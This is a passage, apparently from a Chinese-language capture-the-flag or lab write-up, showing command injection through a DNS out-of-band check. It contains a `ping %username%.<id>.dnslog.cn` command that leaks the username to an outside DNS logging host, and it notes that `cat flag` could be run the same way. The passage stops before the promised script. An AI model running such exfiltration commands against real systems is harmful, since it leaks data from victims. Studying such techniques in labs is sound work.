 ```bash
ping %username%.mlbj8n.dnslog.cn
```

[![在这里插入图片描述](assets/1698900310-4c1c3795353b5a1528f7a1fbef7cefe9.png)](https://storage.tttang.com/media/attachment/2022/08/14/82585217-de9c-4180-93da-690c35e83258.png)  
此时打开网站，点击这个  
[![在这里插入图片描述](assets/1698900310-d8a136343f969c959c90cf3845a52a11.png)](https://storage.tttang.com/media/attachment/2022/08/14/ce41976d-1b9e-4a2a-a2fb-f2205a61af78.png)  
[![在这里插入图片描述](assets/1698900310-cc282a673745e3aa6b3676f4bf9d3e23.png)](https://storage.tttang.com/media/attachment/2022/08/14/2b69e561-e7ff-4cfd-bbec-c4b620a9d86a.png)  
可以发现将 username 回显了出来，也就是说它对里面的命令进行了解析，根据这点，我们这里同样也可以执行 `cat flag`这种语句，我们构造脚本如下
